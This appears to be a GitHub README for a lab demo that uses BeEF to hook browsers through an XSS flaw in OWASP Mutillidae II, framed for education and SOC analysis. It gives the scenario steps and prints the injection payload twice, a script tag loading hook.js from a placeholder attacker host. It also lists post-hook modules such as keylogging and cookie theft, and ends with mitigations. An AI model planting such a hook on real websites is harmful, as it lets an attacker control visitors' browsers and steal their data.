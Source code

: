 # 🔥 BeEF + Mutillidae XSS Demo

This project demonstrates how to use **BeEF** to hook a browser via a stored/reflected XSS vulnerability in **OWASP Mutillidae II**, and simulate client-side exploitation for educational and SOC analysis purposes.

> ⚠️ This is for **educational use only** in a legal lab environment.

---

## 🧪 Tools Used
- **Kali Linux** with BeEF (`beef-xss`)
- **OWASP Mutillidae II** vulnerable web app
- **Python HTTP Server** (to serve hook files or malicious pages)

---

## 🧷 Scenario

1. Launch BeEF (`sudo beef-xss`)
2. Navigate to Mutillidae > `XSS > Stored XSS`
3. Inject BeEF hook:
   ```html
   <script src="http://<KALI-IP>:3000/hook.js"></script>
   ```
4. Victim browses the vulnerable page → gets hooked by BeEF.
5. Attacker now executes modules (keylogger, port scanner, webcam test...).

---

## 📂 File Structure
- `attack_files/xss_mutillidae_payload.txt`: BeEF XSS injection example
- `report/incident_report.md`: SOC-style incident analysis
- `screenshots/`: Evidence of attack steps

---

## 📸 Screenshots

### 🎯 Hooked Victim  
![Hooked Victim](screenshots/hooked.png)

### 🧰 Mutillidae Home Page  
![Mutillidae Home Page](screenshots/commands.png)

----

## 📑 Sample Payload (`xss_mutillidae_payload.txt`)
```html
<script src="http://<KALI-IP>:3000/hook.js"></script>
```

> Injected into a form or URL parameter in Mutillidae

---

## 📖 Report Summary
- Target: Mutillidae (XSS > Stored)
- Hooked Victim Browser via malicious JavaScript
- Demonstrated:
  - Internal network scan
  - Cookie stealing simulation
  - Fake login prompt
- Analysis in `report/incident_report.md`

---

## 🛡️ Mitigation
- Content Security Policy (CSP)
- Input sanitization
- Disabling inline scripts

---

## 🧑‍💻 Author
Roei Ben Simon  
[GitHub » Roeibs100](https://github.com/Roeibs100)

